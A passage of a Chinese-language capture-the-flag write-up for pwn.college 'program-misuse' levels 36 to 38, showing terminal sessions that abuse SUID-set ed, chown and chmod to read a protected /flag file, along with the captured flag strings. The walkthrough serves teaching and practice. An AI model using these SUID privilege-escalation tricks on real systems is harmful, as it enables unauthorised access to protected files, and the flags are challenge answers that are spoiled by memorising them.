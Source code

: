 `ed`工具：是个编辑器，是交互式的
```
hacker@program-misuse-level-36:~$ ed /flag
57
.p
pwn.college{QNXzpWhqr3e12Okfu2KRnY5jyxa.0FO3EDL2QjMyMzW}
```
显示全文

## level37 Lets you get the flag by doing tricks with permissions!
```
hacker@program-misuse-level-37:~$ sh file.sh
Welcome to ./babysuid_level37!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/chown.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level37) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/chown!
```
`chown`工具：改变文件的所有者和组的
```
hacker@program-misuse-level-37:~$ chown hacker /flag
hacker@program-misuse-level-37:~$ cat /flag
pwn.college{49NDHOhwhBEwWccuPUHSxUU0RIE.0VO3EDL2QjMyMzW}
hacker@program-misuse-level-37:~$
```
这就是简单的赋权了

## level38 Lets you get the flag by doing tricks with permissions!
```
hacker@program-misuse-level-38:~$ sh file.sh
Welcome to ./babysuid_level38!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/chmod.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level38) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/chmod!
```
这个，没人不会吧
```
hacker@program-misuse-level-38:~$ chmod 777 /flag
hacker@program-misuse-level-38:~$ cat /flag
pwn.college{UtH5piA32tLwQLpCFPRDXuFa98r.0FM4EDL2QjMyMzW}
hacker@program-misuse-level-38:~$
```
